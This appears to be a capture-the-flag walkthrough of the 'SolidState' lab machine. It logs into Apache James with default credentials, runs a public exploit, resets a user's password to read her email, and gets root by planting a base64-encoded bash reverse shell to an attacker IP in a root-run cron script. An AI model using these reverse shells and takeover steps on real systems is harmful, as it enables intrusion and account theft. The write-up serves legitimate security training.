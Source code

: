 We found Apache James 2.3.2 in the port 4555. With searchsploit we found **[this exploit](https://www.exploit-db.com/exploits/50347)** but we need credentials. Trying with root:root get us inside

```bash
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:

help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection

listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
Connection closed by foreign host
```

And we list five users. Lets run the exploit

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/SolidState-10.10.10.51]
└─$ python3 50347.py 10.10.10.51 10.10.14.13 9001
[+]Payload Selected (see script for more options):  /bin/bash -i >& /dev/tcp/10.10.14.13/9001 0>&1
[+]Example netcat listener syntax to use after successful execution: nc -lvnp 9001
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).
[+]Dont forget to start a listener on port 9001 before logging in!
```

Now we have to log in, so we have to change users passwords and try services. We dig into pop3 service looking for emails and we found info for the user mindy using the comands LIST and RETR

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/SolidState-10.10.10.51]
└─$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands

setpassword mindy password123

-------------

┌──(kali㉿kali)-[~]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS password123
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Now if we establish a ssh connection with mindy, the previous payload gets triggered and we can grab a proper shell with a netcat listener. If we just log through ssh as mindy, we get a restricted bash shell (we can escape a bash shell too appending the `-t bash` in the ssh command - `ssh mindy@10.10.10.51 -t bash` )

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/SolidState-10.10.10.51]
└─$ ssh mindy@10.10.10.51           
mindy@10.10.10.51s password: P@55W0rd1!2@
[...SNIP...]
mindy@solidstate:~$ whoami
-rbash: whoami: command not found

----------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.51] 51298
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
whoami
mindy
```

Now for privilege escalation, we found nothing after enumerate the system so lets run pspy (32, 64 didn't work)

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ ./pspy32
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

[...SNIP...]

CMD: UID=0     PID=22786  | python /opt/tmp.py
```

We found this script and it seems that is made to delete the tmp folder after some time

```bash
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Changing the command in the script will give us a shell. Writing a reverse shell `/bin/bash -i >& /dev/tcp/10.10.14.13/9001 0>&1` didn't work, so we had to encode the shell

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/SolidState-10.10.10.51]
└─$ echo '/bin/bash -i >& /dev/tcp/10.10.14.13/1236 0>&1'|base64 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEzLzEyMzYgMD4mMQo=

------------

${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ cat /opt/tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEzLzEyMzYgMD4mMQo="|base64 -d|bash')
except:
     sys.exit()

------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1236
listening on [any] 1236 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.51] 39238
bash: cannot set terminal process group (23480): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# whoami
root
```

And we are root
